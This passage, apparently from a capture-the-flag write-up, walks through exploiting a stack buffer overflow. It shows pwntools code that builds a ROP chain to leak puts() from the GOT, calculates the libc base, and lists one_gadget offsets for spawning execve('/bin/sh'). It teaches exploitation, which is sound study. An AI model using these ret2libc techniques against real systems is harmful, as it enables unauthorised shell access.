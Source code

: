 ```
 RIP  0x4242424242424242 ('BBBBBBBB')
─────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────────────────────────────────────────────
Invalid address 0x4242424242424242

```

There are no “win” functions in this binary to return to that will print out the flag, or give us a shell. Getting a shell means finding a way to execute `execve("/bin/sh")` from libc. Since libc is randomized, we need to calculate the target’s libc base address by leaking a function’s libc address and subtracting its offset from the provided `libc.so.6`.

One solution is to utilize ROP gadgets to pop the address of `puts()` from the GOT into the RDI register, and then return to `puts()` at the PLT to have it print out the address of `puts()` in libc:

```
buf  = b"A"*40
buf += p64(rop.find_gadget(["pop rdi", "ret"])[0])      # pop rdi gadgat
buf += p64(elf.got.puts)                                # puts() in GOT
buf += p64(elf.plt.puts)                                # puts() in PLT

r.sendline(buf)

r.recvline()
puts_leak = int.from_bytes(r.recvline()[:6], "little")
print(f"puts@libc leak: 0x{puts_leak:2x}")
```

With the leaked libc address of `puts()`, it becomes trivial to calculate libc’s base address:

```
libc.address = puts_leak - libc.sym.puts
print(f"libc base: 0x{libc.address:2x}")
```

To find a gadget that executes `execve("/bin/sh")`, we can use the `one_gadget` tool:

```
► one_gadget  ./libc.so.6
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

We can add any of these offsets to libc’s base address and return to that to get a shell, but first we need to get the binary to prompt us for more data. One way to do that is to return to the start of `calculator()` and exploit the stack buffer overflow again, but this time changing the saved return pointer to point to a one-gadget address that calls `execve()`.

